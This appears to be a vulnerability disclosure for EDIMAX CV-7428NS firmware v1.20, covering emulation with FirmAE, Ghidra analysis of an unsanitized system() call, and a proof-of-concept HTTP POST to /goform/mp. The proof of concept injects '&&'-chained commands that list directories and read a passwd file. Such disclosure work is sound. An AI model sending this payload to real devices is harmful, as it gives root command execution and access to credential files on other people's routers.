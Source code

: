 ### description:
A remote code execution (RCE) vulnerability was discovered in the firmware version EDIMAX-cv-7428ns_v1.20. The vulnerability exists in the `mp` function, which processes the `command` parameter via unsanitized input passed to `system()`. This allows attackers to execute arbitrary commands with root privileges by injecting shell metacharacters.

### Firmware
**brand**: EDIMAX
**product**: EDIMAX-cv-7428ns
**version**: v1.20

The firmware can be downloaded from [EDIMAX - Download](https://www.edimax.com/edimax/download/download/data/edimax/global/download/product/home_legacy_products/home_legacy_wi-fi_bridges/cv-7428ns/) and emulated using FirmAE:
```bash
sudo ./run.sh -d EDIMAX ../sim_project/CV-7428NS_v1.20/CV-7428NS_v1.20.bin
```
Note: During emulation, there may be instances where the process appears to fail—that is, while the FirmAE Debugger interface is accessible, the router service may not start properly. In such cases, we can utilize the Debugger's socat to access the router's terminal. From there, we can manually run the firmware's webs file using GDB, which will allow the 80-port service to become available.

Emulation result:  
![./img/emulation2.png](./img/emulation2.png)
![[./img/emulation1.png]](./img/emulation1.png)

### analyze  
Using Ghidra, we identified the vulnerable function "mp" at file "webs":
![[./img/code_ana1.png]](./img/code_ana1.png)
![[./img/code_ana2.png]](./img/code_ana2.png)

Key findings:
1. The `command` parameter (pcVar3) is directly concatenated into `local_210` buffer.
2. `system()` executes the constructed command without sanitization.
3. Attempted semicolon filtering can be bypassed using alternative shell metacharacters.

Data flow analysis reveals:
- `websGetVar()` retrieves user-controlled `command` input 
- Command string is formatted into `/bin/rftest.sh [INPUT] > /tmp/rftest.out`
- No validation prevents command injection via `&`, `|`, `$()` etc.

Vulnerable code section:
![[./img/vulnerable_code.png]](./img/vulnerable_code.png)

### poc  
Successful exploitation using Burp Suite:
![[./img/poc_result.png]](./img/poc_result.png)

Verification steps:
1. Execute command injection:
```http
POST /goform/mp HTTP/1.1
Host: 192.168.9.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Cookie: language=0

command=hack%26%26echo%20HACK%26%26ls%20..%26%26cat%20../passwd
```
2. Observed response contains the content of file "../passwd" and commands are executed in Firmware.

